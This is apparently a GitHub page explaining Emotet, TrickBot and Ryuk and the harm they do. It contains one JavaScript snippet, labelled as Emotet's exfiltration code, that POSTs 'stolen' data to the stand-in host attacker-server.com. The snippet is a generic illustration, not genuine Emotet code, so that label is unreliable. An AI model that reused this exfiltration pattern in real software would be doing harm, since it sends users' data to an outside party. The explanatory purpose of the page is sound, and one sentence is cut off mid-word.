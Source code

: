 ## Impact and dangers of Emotet

Emotet is a highly sophisticated and dangerous malware that can have a devastating impact on organizations and individuals. Its primary goal is to steal data, but it can also be used to launch DDoS attacks, deploy other malware payloads, and even take control of entire systems.

**Data theft**

One of the most serious dangers of Emotet is its ability to steal sensitive data, such as passwords, credit card numbers, and customer information. This data can then be sold on the dark web or used to commit identity theft and fraud.

**DDoS attacks**

Emotet can also be used to launch DDoS attacks against websites and other online services. This can overwhelm the servers and make them unavailable to users. DDoS attacks can also be used to disrupt business operations and cause financial losses.

**Payloads like Ryuk and Trickbot**

Emotet is often used to deploy other malware payloads, such as Ryuk and Trickbot. These payloads can cause even more damage, such as encrypting files and demanding a ransom to decrypt them.


```js
// Example of Emotet's Data Exfiltration Code
function exfiltrateData(dataToSteal) {
    const maliciousServer = "http://attacker-server.com";

    // Code to send stolen data to the attacker's server
    fetch(maliciousServer, {
        method: "POST",
        body: dataToSteal,
    })
    .then((response) => {
        if (response.status === 200) {
            // Successful exfiltration
            console.log("Data exfiltration successful.");
        } else {
            // Exfiltration failed
            console.error("Data exfiltration failed.");
        }
    })
    .catch((error) => {
        // Handle errors during data exfiltration
        console.error("Error during data exfiltration:", error);
    });
}

// Example usage of the data exfiltration function
const dataToSteal = "Sensitive data to be stolen";
exfiltrateData(dataToSteal);
```



## TrickBot and Ryuk

**TrickBot** is a banking trojan that is designed to steal financial information from users. It is often spread through phishing emails and can be difficult to detect. Once TrickBot is installed on a computer, it can steal passwords, credit card numbers, and other sensitive data. It can also be used to download other malware onto the computer.

- TrickBot is a modular malware, which means that it can be customized to add new features and functionality.
- TrickBot is known to be very stealthy and can evade detection by security software.
- TrickBot can spread to other computers on the same network, making it difficult to contain.

**Ryuk** is a ransomware virus that encrypts files on a computer and demands a ransom payment to decrypt them. It is often spread through phishing emails and can be very difficult to remove. Ryuk has been used to attack businesses and organizations of all sizes, and it can cause significant financial damage.

- Ryuk uses a **AES-256** encryption algorithm to encrypt files, making it very difficult to decrypt them without the decryption key.
- Ryuk is known to target high-value targets, such as businesses and organizations.
- Ryuk often demands large ransoms, which can be difficult for victims to pa


### Combination

TrickBot and Ryuk are often used together. TrickBot can be used to steal credentials and other sensitive data, which can then be used to deploy Ryuk and encrypt the victim's files. This can be a very damaging combination, as it can make it very difficult for the victim to recover their data without paying the ransom.